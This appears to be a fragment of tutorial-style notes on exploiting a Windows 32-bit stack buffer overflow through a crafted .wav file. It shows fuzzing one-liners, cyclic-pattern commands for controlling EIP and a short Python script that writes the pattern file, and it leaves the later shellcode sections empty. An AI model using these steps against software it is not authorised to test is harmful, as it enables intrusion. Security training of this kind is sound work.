 

## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

```
/usr/bin/msf-pattern_create -l 5000

ERC --pattern c 5000
```

win32bof_exploit.py

```
def eip_offset():
payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

with open('pattern.wav', 'wb') as f:
    f.write(payload)

eip_offset()
```

## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode